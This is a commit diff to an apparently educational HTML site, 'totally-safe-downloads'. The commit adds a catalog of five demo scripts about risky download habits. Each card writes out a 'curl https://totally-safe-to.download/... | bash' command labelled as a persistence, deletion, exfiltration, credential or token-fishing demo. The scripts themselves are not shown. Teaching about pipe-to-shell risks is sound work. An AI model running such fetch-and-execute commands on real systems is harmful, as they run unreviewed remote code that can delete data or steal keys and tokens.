

Before and after one commit to mmsge/totally-safe-downloads, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 599-1926 px from the top of the page at 84% size. Before the commit the page ends 1165 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add more sketchy demo scripts
Co-authored-by: Copilot <223556219+Copilot@users.noreply.github.com>

```diff
--- a/index.html
+++ b/index.html
@@ -336,6 +336,45 @@
         margin-top: 28px;
       }
 
+      .catalog {
+        display: grid;
+        grid-template-columns: repeat(2, minmax(0, 1fr));
+        gap: 18px;
+        margin-top: 28px;
+      }
+
+      .script-card {
+        padding: 22px;
+      }
+
+      .kicker {
+        display: inline-block;
+        margin-bottom: 10px;
+        color: var(--danger);
+        font-family: "Courier New", monospace;
+        font-size: 0.76rem;
+        font-weight: 900;
+        letter-spacing: 0.08em;
+        text-transform: uppercase;
+      }
+
+      .script-command {
+        margin: 14px 0;
+        padding: 14px;
+        border: 2px solid var(--ink);
+        background: #fffdf4;
+        font-family: "Courier New", monospace;
+        font-size: 0.88rem;
+        overflow-x: auto;
+      }
+
+      .script-actions {
+        display: flex;
+        flex-wrap: wrap;
+        gap: 12px;
+        margin-top: 16px;
+      }
+
       .panel {
         padding: 22px;
       }
@@ -370,6 +409,7 @@
 
       @media (max-width: 860px) {
         .hero,
+        .catalog,
         .grid {
           grid-template-columns: 1fr;
         }
@@ -427,13 +467,13 @@
           <ul class="truth" aria-label="Site principles">
             <li>Safe demos of unsafe habits.</li>
             <li>Suspicious commands, explained before they bite.</li>
-            <li>Security theater, but the educational kind.</li>
+            <li>Every download is a tiny trust exercise.</li>
           </ul>
         </div>
 
         <article class="demo-card" aria-labelledby="demo-title">
           <div class="card-head">
-            <span>Current Demo</span>
+            <span>Featured Demo</span>
           </div>
           <div class="card-body">
             <div>
@@ -474,6 +514,78 @@
         </article>
       </section>
 
+      <section class="catalog" aria-label="More suspicious downloads">
+        <article class="panel script-card">
+          <span class="kicker">Persistence demo</span>
+          <h3>bootstrap.sh</h3>
+          <p>
+            The classic "one-command installer" that sounds productive while it
+            sizes up your shell profiles and PATH.
+          </p>
+          <div class="script-command"><code>$ curl https://totally-safe-to.download/bootstrap.sh | bash</code></div>
+          <div class="script-actions">
+            <a class="button" href="/bootstrap.sh">Inspect bootstrap.sh</a>
+            <a class="plain-link" href="https://totally-safe-to.download/bootstrap.sh">Direct file URL</a>
+          </div>
+        </article>
+
+        <article class="panel script-card">
+          <span class="kicker">Deletion demo</span>
+          <h3>cleanup.sh</h3>
+          <p>
+            A fake performance tune-up that demonstrates how "cleanup" can be a
+            very polite synonym for "delete first, regret later."
+          </p>
+          <div class="script-command"><code>$ curl https://totally-safe-to.download/cleanup.sh | bash</code></div>
+          <div class="script-actions">
+            <a class="button" href="/cleanup.sh">Inspect cleanup.sh</a>
+            <a class="plain-link" href="https://totally-safe-to.download/cleanup.sh">Direct file URL</a>
+          </div>
+        </article>
+
+        <article class="panel script-card">
+          <span class="kicker">Exfiltration demo</span>
+          <h3>backup-sync.sh</h3>
+          <p>
+            Poses as a backup helper while showing how easily "sync" could turn
+            into "archive your life and upload it somewhere rude."
+          </p>
+          <div class="script-command"><code>$ curl https://totally-safe-to.download/backup-sync.sh | bash</code></div>
+          <div class="script-actions">
+            <a class="button" href="/backup-sync.sh">Inspect backup-sync.sh</a>
+            <a class="plain-link" href="https://totally-safe-to.download/backup-sync.sh">Direct file URL</a>
+          </div>
+        </article>
+
+        <article class="panel script-card">
+          <span class="kicker">Credential demo</span>
+          <h3>ssh-fix.sh</h3>
+          <p>
+            Claims to sort out your SSH drama, but mainly illustrates how a
+            "fixer" script can inventory keys, config, and agent state.
+          </p>
+          <div class="script-command"><code>$ curl https://totally-safe-to.download/ssh-fix.sh | bash</code></div>
+          <div class="script-actions">
+            <a class="button" href="/ssh-fix.sh">Inspect ssh-fix.sh</a>
+            <a class="plain-link" href="https://totally-safe-to.download/ssh-fix.sh">Direct file URL</a>
+          </div>
+        </article>
+
+        <article class="panel script-card">
+          <span class="kicker">Token-fishing demo</span>
+          <h3>ci-fix.sh</h3>
+          <p>
+            The emergency build helper nobody asked for, now gently reminding
+            you that debugging scripts also know where your tokens live.
+          </p>
+          <div class="script-command"><code>$ curl https://totally-safe-to.download/ci-fix.sh | bash</code></div>
+          <div class="script-actions">
+            <a class="button" href="/ci-fix.sh">Inspect ci-fix.sh</a>
+            <a class="plain-link" href="https://totally-safe-to.download/ci-fix.sh">Direct file URL</a>
+          </div>
+        </article>
+      </section>
+
       <section class="grid" aria-label="What this site demonstrates">
         <article class="panel">
           <h3>Downloads Are Code</h3>
@@ -494,8 +606,8 @@
         <article class="panel">
           <h3>Harmless On Purpose</h3>
           <p>
-            These demos are built to teach without causing damage. The real
-            internet did not agree to the same terms.
+            Each script stops at narration, metadata, or dry-run style output.
+            The point is the pattern, not the payload.
           </p>
         </article>
       </section>
```
Also changed, not shown: 5 other files.
